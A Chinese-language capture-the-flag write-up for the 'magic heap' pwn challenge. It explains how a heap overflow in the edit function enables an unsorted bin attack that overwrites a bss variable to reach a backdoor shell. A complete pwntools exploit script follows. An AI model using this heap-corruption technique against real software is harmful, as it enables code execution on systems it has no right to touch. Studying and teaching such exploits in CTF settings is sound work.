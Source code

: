 ```yaml
---
title: magic heap
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap

---
```


一道unsorted bin attack的题目，利用unsorted bin attack修改值来绕过if条件

<!-- more -->

**unsorted bin attack**

查壳，64位，保护几乎全开。

一道菜单题，在edit函数中没有限制写入的size，存在堆溢出。133t函数是个后门函数，需要修改bss段的magic>0x1305后，选择4869进入，即可get shell。

原本以为是利用fast bin attack将magic所在的内存malloc出来，然后通过edit函数修改magic的值。后来发现不能malloc出来，调试的时候发现报错说指针非法。

后来看到是使用**unsorted bin attack**，unsorted bin attack可以将一个地址的值写为一个**非常大**的数，可以满足题目的需求。

unsorted bin attack原理：

在unsorted bin中，遵循FIFO的原则，free chunk采用双向链表连接。当从unsorted bin中取出chunk时，会从unsorted bin的末尾取出，在取出的过程中会执行bk->fd=unsorted_bin(av)，通过bk找到前一个chunk，将前一个chunk的fd指向unsorted bin的头结点。

如果通过一些方法（如堆溢出），可以控制取出chunk的bk指针，那么就可以将*bk+0x10的位置修改为unsorted bin头结点的地址，这个地址的值是很大的。

exp:

```python
from pwn import*
elf=ELF("./magicheap2")
p=process("./magicheap2")
#p=remote()
context.log_level='debug'
magic=0x6020A0

def create(size,content):
    p.recv()
    p.sendline('1')
    p.recvuntil("Size of Heap : ")
    p.sendline(str(size))
    p.recvuntil("Content of heap:")
    p.sendline(content)
    p.recvuntil("SuccessFul")

def edit(idx,size,content):
    p.recv()
    p.sendline('2')
    p.recvuntil("Index :")
    p.sendline(str(idx))
    p.recvuntil("Size of Heap : ")
    p.sendline(str(size))
    p.recvuntil("Content of heap : ")
    p.sendline(content)
    p.recvuntil("Done !")

def delete(idx):
    p.recv()
    p.sendline('3')
    p.recvuntil("Index :")
    p.sendline(str(idx))
    p.recvuntil("Done !")

def get_shell():
    p.recv()
    p.sendline('4869')
    p.recv()
    p.interactive()

fake_chunk=0x60207d

create(0x20,'chunk0')
create(0x80,'chunk1')
create(0x20,'chunk2')
delete(1)
payload='a'*0x20+p64(0)+p64(0x91)+p64(0)+p64(magic-0x10)
#gdb.attach(p)
edit(0,0x40,payload)
create(0x80,'chunk1')
get_shell()

```